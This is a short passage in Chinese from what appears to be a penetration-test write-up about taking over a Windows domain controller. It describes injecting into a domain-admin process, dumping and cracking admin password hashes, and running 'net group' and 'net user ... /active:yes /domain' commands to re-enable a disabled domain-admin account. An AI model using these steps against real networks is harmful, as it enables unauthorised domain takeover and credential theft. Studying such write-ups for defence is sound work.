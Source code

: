 高权限直接注入到域管进程

## 拿下域控

通过机器上的域管进程导出域管账户hash，其中有五个域管用户，cmd5批量解，其中一个域管用户能解出明文信息

```php
net group "domain admins" /domain  
shell net user xxxx  
shell net user xxxx /active:yes /domain
```

启用禁用的域管账户，通过域管账户登录域控，over！

![image-20220929151221101.png](assets/1698900874-bf054266256a63f8681d835b2c7f7a56.png)
